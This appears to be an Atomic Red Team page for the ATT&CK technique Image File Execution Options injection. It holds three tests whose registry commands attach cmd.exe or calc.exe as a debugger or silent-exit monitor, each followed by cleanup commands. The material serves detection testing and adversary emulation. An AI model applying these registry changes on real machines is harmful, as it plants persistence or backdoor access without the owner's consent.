 # T1546.012 - Event Triggered Execution: Image File Execution Options Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/012)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by Image File Execution Options (IFEO) debuggers. IFEOs enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., <code>C:\dbg\ntsd.exe -g  notepad.exe</code>). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017) IFEOs are represented as <code>Debugger</code> values in the Registry under <code>HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code> where <code>&lt;executable&gt;</code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags and/or by directly modifying IFEO and silent process exit Registry values in <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\\</code>. (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

Similar to [Accessibility Features](https://attack.mitre.org/techniques/T1546/008), on Windows Vista and later as well as Windows Server 2008 and later, a Registry key may be modified that configures "cmd.exe," or another program that provides backdoor access, as a "debugger" for an accessibility program (ex: utilman.exe). After the Registry is modified, pressing the appropriate key combination at the login screen while at the keyboard or when connected with [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) will cause the "debugger" program to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may also be abused to obtain privilege escalation by causing a malicious executable to be loaded and run in the context of separate processes on the computer. (Citation: Elastic Process Injection July 2017) Installing IFEO mechanisms may also provide Persistence via continuous triggered invocation.

Malware may also use IFEO to [Impair Defenses](https://attack.mitre.org/techniques/T1562) by registering invalid debuggers that redirect and effectively disable various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June 2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)

- [Atomic Test #3 - GlobalFlags in Image File Execution Options](#atomic-test-3---globalflags-in-image-file-execution-options)


<br/>

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows


**auto_generated_guid:** fdda2626-5234-4c90-b163-60849a24c0b8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | path | calc.exe|
| payload_binary | Binary To Execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows


**auto_generated_guid:** 46b1f278-c8ee-4aa5-acce-65e77b11f3c1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | path | notepad.exe|
| payload_binary | Binary To Execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #3 - GlobalFlags in Image File Execution Options
The following Atomic Test will create a GlobalFlag key under Image File Execution Options, also a SilentProcessExit Key with ReportingMode and MonitorProcess values. This test is similar to a recent CanaryToken that will generate an EventCode 3000 in the Application log when a command, whoami.exe for example, is executed.
Upon running Whoami.exe, a command shell will spawn and start calc.exe based on the MonitorProcess value. 
Upon successful execution, powershell will modify the registry and spawn calc.exe. An event 3000 will generate in the Application log.

**Supported Platforms:** Windows


**auto_generated_guid:** 13117939-c9b2-4a43-999e-0a543df92f0d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process | Process to monitor | string | whoami.exe|
| cmd_to_run | Command to execute | string | cmd.exe /c calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$Name = "GlobalFlag"
$Value = "512"
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{process}"
New-Item -Path $registryPath -Force
New-ItemProperty -Path $registryPath -Name $Name -Value $Value -PropertyType DWord -Force
$Name = "ReportingMode"
$Value = "1"
$SilentProcessExit = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{process}"
New-Item -Path $SilentProcessExit -Force
New-ItemProperty -Path $SilentProcessExit -Name $Name -Value $Value -PropertyType DWord -Force 

$Name = "MonitorProcess"
$Value = "#{cmd_to_run}"
New-ItemProperty -Path $SilentProcessExit -Name $Name -Value $Value -PropertyType String -Force
Start-Process whoami.exe
```

#### Cleanup Commands:
```powershell
$SilentProcessExit = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{process}" 
Remove-Item $SilentProcessExit -force
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{process}"
Remove-Item $registryPath -force
```





<br/>
